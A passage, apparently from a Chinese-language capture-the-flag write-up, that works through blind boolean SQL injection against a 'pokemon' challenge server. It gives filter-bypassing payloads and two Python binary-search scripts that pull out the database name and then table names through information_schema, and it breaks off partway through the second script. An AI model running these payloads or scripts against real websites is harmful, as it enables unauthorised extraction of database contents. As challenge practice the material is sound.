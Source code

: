`/error.php?code=404/**/%26%26/**/ascii(right(left(database(),1),1))>111`

回显pokemon not found

说明数据库字段第一个字符为p

然后我们需要写个python脚本，手动注入不是个事，写个python脚本用二分法注入比较快

```python
# -*- coding: utf-8 -*-
import requests
import re

findlink = re.compile(r'(.*) Pokemon (.*?) .*')
baseurl = "http://146.56.223.34:65432/error.php?code="
dbs = ""
for i in range(1, 8):
    print('----------------------------------------------------')
    min_value = 33
    max_value = 130
    mid = (min_value + max_value) // 2  # 中值
    while (min_value < max_value):
        code = f"404/**/%26%26/**/ascii(right(left(database(),{i}),1))>{mid}"
        payload = baseurl + code
        r = requests.get(payload)
        # 回显404说明表达式成立，mid太小
        if (len(re.findall(findlink, r.text)) != 0):
            min_value = mid + 1
        # 无回显说明表达式不成立，mid太大
        else:
            max_value = mid
        mid = (min_value + max_value) // 2
    dbs += chr(mid)
    print(dbs)
```

得到数据库名称pokemon

## 表名

原payload:`?code=404 and (ascii(substr((select table_name from information_schema.tables where table_schema='pokemon' limit 0,1),1,1)))>? `

```python
# -*- coding: utf-8 -*-
import requests
import re

findlink = re.compile(r'(.*) Pokemon (.*?) .*')
baseurl = "http://146.56.223.34:65432/error.php?code="
dbs = ""
for i in range(1, 100):
    print('----------------------------------------------------')
    min_value = 33
    max_value = 130
    mid = (min_value + max_value) // 2  # 中值
    while (min_value < max_value):
        code = f"404/**/%26%26/**/ascii(right(left((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/in/**/(0x706f6b656d6f6e)/**/limit/**/0,1),{i}),1))>{mid}"
        payload = baseurl + code
        r = requests.get(payload)
        # 回显404说明表达式成立，mid太小
        if (len(re.findall(findlink, r.text)) != 0):
            min_value = mid + 1
        # 无回显说明表达式不成立，mid太大
        else:
```